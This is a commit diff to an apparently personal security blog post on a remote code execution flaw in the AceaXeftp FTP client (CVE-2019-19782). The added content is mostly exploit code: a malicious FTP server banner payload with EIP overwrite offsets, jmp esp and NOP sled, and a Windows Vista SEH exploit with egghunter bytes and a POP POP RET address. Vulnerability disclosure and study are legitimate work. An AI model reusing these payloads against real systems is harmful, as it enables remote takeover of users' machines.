

Before and after one commit to sketler/sketler.github.io, a Jekyll site: the page built from _posts/2019-11-11-AceaXeftp-RCE-Via-Buffer-Overflow.markdown, in a window 1280 px wide and 1400 px high, scrolled down 886 px. Shown: the whole window, without its empty margins (308-971 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1479 px from its top, so only the background shows below that; some of the changed text lies outside the part shown.

Commit message:
Update 2019-11-11-AceaXeftp-RCE-Via-Buffer-Overflow.markdown

```diff
--- a/_posts/2019-11-11-AceaXeftp-RCE-Via-Buffer-Overflow.markdown
+++ b/_posts/2019-11-11-AceaXeftp-RCE-Via-Buffer-Overflow.markdown
@@ -50,15 +50,63 @@ while True:
 	    print ('[+] Envindo o payload')
 	    conn.send(dadosenviados)
 	    conn.close()
-	    print ('[+] Chegou tua shell na porta 6666')
+	    print ('[+] Payload enviado com sucesso')
 	except:
 		print ('[-] Tivemos um prolema, veja se tudo foi settado corretamente')
+
 {% endhighlight %}
 &nbsp;
 
-So, after Creating a FTP server I was able to send the malicious Buffer, to exploit this vulnerability. and after doind all the steps needed to create the simple buffer overflow i was able to retrieve a Command shell on the machine
+So, after Creating a FTP server I was able to send the malicious Buffer, to exploit this vulnerability. and after doing all the steps needed to create the simple buffer overflow i was able to retrieve a Command shell on the machine
+&nbsp;
+By sending the following payload, i was able to take control of the EIP
+
+&nbsp;
+{% highlight python %}
+
+jmpesp = "\x96\x72\x01\x68"
+lixo = "\x41"*2061
+nopsled = "\x90"*20
+eip = '\x6F\x4A\x08\x68'
+
+payload = lixo+eip+jmpesp+nopsled+shellcode+nopsled
+
+dadosenviados = '220'+payload+'\r\n'
+
+{% endhighlight %}
+&nbsp;
+
+So, nothing new there, just a classic default buffer overflow, but i was so happy that i have found it haha. It was time to exploit it in windows vista, to smack some windows ASLRs.
+
+I exploited it using a SEH based Buffer overflow, and by using the egghunter technique.
+
+
+&nbsp;
+{% highlight python %}
+
+
+lixo1 = "\x41"*100
+lixo2 = "D" * (9266-len(shellcode))
+lixo3 = "C" * 576
+nopsled = "\x90"*20
+
+
+egghunter = "\x66\x81\xca\xff\x0f\x42\x52\x6a\x02\x58\xcd\x2e\x3c\x05\x5a\x74"
+egghunter += "\xef\xb8\x77\x30\x30\x74\x8b\xfa\xaf\x75\xea\xaf\x75\xe7\xff\xe7"
+
+egg = "w00tw00t"
+
+nseh = "\x90\x90\xEB\x05"
+seh = "\xF8\x54\x01\x68" #POP POP RET 680154F8 in WCMDPA10.DLL
+
+payload = lixo1 + egg + nopsled + shellcode + lixo2 + nseh + seh + egghunter + lixo3
+
+
+dadosenviados = '220'+payload+'\r\n'
+
+{% endhighlight %}
 &nbsp;
 
 #CVE
 
-Coming soon
+CVE-2019-19782
```
Also changed, not shown: other parts of _posts/2019-11-11-AceaXeftp-RCE-Via-Buffer-Overflow.markdown (+1 -1 lines).
